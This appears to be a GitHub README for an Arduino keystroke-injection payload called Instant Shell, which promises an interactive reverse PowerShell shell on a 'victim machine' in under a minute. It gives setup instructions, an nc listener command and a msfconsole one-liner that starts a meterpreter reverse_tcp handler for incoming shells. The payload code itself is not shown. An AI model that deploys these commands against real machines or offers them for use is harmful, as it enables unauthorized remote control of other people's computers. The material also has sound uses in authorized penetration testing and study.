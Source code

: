 # Instant Shell

### Description:

#### 1: Instant_Shell.ino:<br>

**Payload by:** [hum4nG0D](https://github.com/hum4nG0D/)

Get instant interactive reverse powershell shell in less than a minute and send commands remotely to victim machine. Interactive reverse Powershell shell script from [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instructions:**
Start an nc listener or metasploit listener. Be sure to change IP and Port. Adjust script delay which suits best to your computer.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP_ADDRESS>; set lport 4444; set ExitOnSession false; exploit -j"
```
